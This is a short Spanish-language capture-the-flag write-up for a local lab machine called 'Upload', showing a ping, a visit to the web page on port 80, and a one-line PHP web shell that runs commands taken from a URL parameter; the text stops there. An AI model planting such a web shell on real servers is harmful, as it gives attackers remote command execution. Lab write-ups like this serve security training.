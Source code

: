 #### INFORMACION DE LA MAQUINA.
#### Maquina Upload.
[LINK DE LA MAQUINA](https://mega.nz/file/pOdwgYbB#8lTyf-mWFNq7xvKWObKUV9gkrZj3nzhuHVlGQmnZ6BQ)
#### Dificultad: Muy facil.

---

Enviamos un ping de un paquete para comprobar que la maquina esta activa y lista.
```Linux
Ping -c 1 172.17.0.2
```

Encontraremos el puerto 80 web abierto, por lo cual iremos al buscador y vamos a la pagina.
```Firefox
https://172.17.0.2:80
```

```Linux                                
<?php 
system($_GET[' cmd ']); 
?>
```
